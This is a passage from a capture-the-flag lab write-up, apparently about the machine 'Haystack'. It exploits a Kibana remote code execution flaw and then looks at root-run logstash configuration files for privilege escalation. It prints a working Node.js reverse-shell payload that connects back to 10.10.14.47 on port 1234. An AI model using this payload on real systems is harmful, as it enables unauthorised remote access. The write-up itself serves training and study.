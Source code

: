 Looking at the version and checking if it's vulnerable I find that there is a CVE for it with an available POC:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "10.10.14.47", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


The vulnerability lies in a RCE that we can exploit to pivot to user `kibana`. I ran the exploit by placing the shell on the ``/tmp`` directory and `curl`\`ing it:

*Getting the reverse shell as `kibana`*

![Img](/assets/posts_details/Haystack/images/exploit.png)

![Img](/assets/posts_details/Haystack/images/kibana_shell.png)

#### From another user to root

Once as `kibana` we just enumerate more and find that we can access a directory that we couldn't access before: ``/etc/logstash/conf.d``. Good, we have access to `logstash` configuration files: ``input.conf``, ``output.conf`` and ``filter.conf``.

Besides, we can also see that there is a process running it continously and as root! Looks like we found our way to root.

*Finding the process with ``ps aux``*
